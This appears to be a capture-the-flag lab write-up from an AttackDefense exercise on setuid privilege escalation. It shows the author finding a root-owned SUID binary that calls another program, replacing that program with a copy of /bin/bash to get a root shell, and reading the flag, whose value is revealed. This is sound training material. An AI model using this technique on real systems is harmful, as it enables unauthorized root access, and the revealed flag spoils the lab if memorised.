 # 🔬SUID

## Lab 1

>  🔬 [Exploiting Setuid Programs](https://www.attackdefense.com/challengedetails?cid=73)
>
>  - **SUID** Privilege escalation
>  - Already logged on as `student` unprivileged user

```bash
pwd
ls -al
```

```bash
drwxr-xr-x 1 student student 4096 Sep 22  2018 .
drwxr-xr-x 1 root    root    4096 Sep 22  2018 ..
-rw-r--r-- 1 root    root      88 Sep 22  2018 .bashrc
-r-x------ 1 root    root    8296 Sep 22  2018 greetings
-rwsr-xr-x 1 root    root    8344 Sep 22  2018 welcome
```

> 📌 `welcome` file has the `SUID` permission applied

```bash
./greetings
	bash: ./greetings: Permission denied
./welcome
	Welcome to Attack Defense Labs
```

```bash
file welcome
```

```bash
welcome: setuid ELF 64-bit LSB shared object, x86-64, version 1 (SYSV), dynamically linked, interpreter /lib64/ld-linux-x86-64.so.2,for GNU/Linux 3.2.0, BuildID[sha1]=199bc8fd6e66e29f770cdc90ece1b95484f34fca, not stripped
```

```bash
strings welcome
```

![](assets/image-20230319194050643.png)

- It calls `greetings` binary

```bash
rm greetings
cp /bin/bash greetings
./welcome
```

![](assets/image-20230319194317860.png)

```bash
cd /root
cat flag
```



<details>
<summary>Reveal Flag: 🚩</summary>



`b92bcdc876d52108778e2d81f3b01494`

![](assets/image-20230319194412904.png)

</details>

------


